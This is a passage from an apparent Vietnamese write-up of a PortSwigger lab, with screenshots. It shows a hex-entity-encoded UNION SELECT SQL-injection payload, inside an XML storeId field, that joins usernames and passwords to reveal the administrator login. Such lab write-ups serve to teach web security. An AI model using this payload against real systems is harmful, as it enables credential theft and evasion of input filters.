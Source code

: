 Do chỉ có thể trả về một cột,nối (concatenate) dữ liệu username và password bằng ký tự `~`

    <storeId><@hex_entities>1 UNION SELECT username || '~' || password FROM users</@hex_entities></storeId>

![img](https://github.com/DucThinh47/PortSwigger/blob/main/SQL-injection/images/image206.png?raw=true)

=> Tìm ra tài khoản administrator. 

Login và solved bài lab: 

![img](https://github.com/DucThinh47/PortSwigger/blob/main/SQL-injection/images/image207.png?raw=true)
